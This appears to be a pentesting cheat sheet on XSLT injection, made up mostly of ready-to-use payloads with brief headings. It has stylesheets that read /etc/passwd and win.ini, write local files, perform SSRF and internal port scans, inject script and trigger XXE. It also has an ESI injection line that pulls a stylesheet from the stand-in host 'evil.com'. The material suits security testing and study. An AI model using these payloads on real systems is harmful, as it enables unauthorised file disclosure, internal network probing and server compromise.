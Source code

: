 
## where to find 
In order to exploit this kind of vulnerability you need to be able to store xsl tags in the server side and then access that content

### inject xml file with malicious xslt 
```xml
<?xml version="1.0" encoding="UTF-8"?>
<data>
  <name>John Doe</name>
  <age>30</age>
  <description>
    This is an example of embedded XSLT.
  </description>

  <!-- Embedded XSLT Stylesheet -->
<xsl:stylesheet xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:abc="http://php.net/xsl" version="1.0">
<xsl:template match="/">
<xsl:value-of select="unparsed-text('/etc/passwd', 'utf-8')"/>
</xsl:template>
</xsl:stylesheet>
</data>

```

### chain with `est injection` attack 
```html
<esi:include src="http://website.com/" stylesheet="http://evil.com/esi.xsl">
</esi:include>
```


## detection


```xml
<?xml version="1.0" encoding="UTF-8"?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
<xsl:output method="html"/>
<xsl:template match="/">
    <h2>XSLT identification</h2>
    <b>Version:</b> <xsl:value-of select="system-property('xsl:version')"/><br/>
    <b>Vendor:</b> <xsl:value-of select="system-property('xsl:vendor')" /><br/>
    <b>Vendor URL:</b><xsl:value-of select="system-property('xsl:vendor-url')" /><br/>
</xsl:template>
</xsl:stylesheet>
```


## read file


```xml
<xsl:stylesheet xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:abc="http://php.net/xsl" version="1.0">
<xsl:template match="/">
<xsl:value-of select="unparsed-text('/etc/passwd', 'utf-8')"/>
</xsl:template>
</xsl:stylesheet>
```
## write to file 
```xml
<?xml version="1.0" encoding="utf-8"?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:php="http://php.net/xsl" >
<xsl:template match="/">
<xsl:result-document href="local_file.txt">
<xsl:text>Write Local File</xsl:text>
</xsl:result-document>
</xsl:template>
</xsl:stylesheet>
```

## SSRF

```xml
<xsl:stylesheet xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:abc="http://php.net/xsl" version="1.0">
<xsl:include href="http://127.0.0.1:5000/xslt"/>
<xsl:template match="/">
</xsl:template>
</xsl:stylesheet>
```

## js injection
```xml
<xsl:stylesheet xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
<xsl:template match="/">
<script>confirm("We're good");</script>
</xsl:template>
</xsl:stylesheet>
```

## xxe
```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE dtd_sample[<!ENTITY ext_file SYSTEM "/etc/passwd">]>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
<xsl:template match="/">
&ext_file;
</xsl:template>
</xsl:stylesheet>
```

## using http 
```xml
<?xml version="1.0" encoding="utf-8"?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
<xsl:template match="/">
<xsl:value-of select="document('/etc/passwd')"/> // get local file
<xsl:value-of select="document('http://172.16.132.1:25')"/>  //port scaning
<xsl:value-of select="document('file:///c:/winnt/win.ini')"/>
</xsl:template>
</xsl:stylesheet>
```

## RCE 
- some times xslt can lead to RCE in certain condtions

check this [documentation](https://vulncat.fortify.com/en/detail?id=desc.dataflow.java.xslt_injection#C%23%2FVB.NET%2FASP.NET)

## tools 

- use tool saxonb-xslt to parse xml

```bash
saxonb-xslt -xsl:transformation.xsl catalogue.xml
```
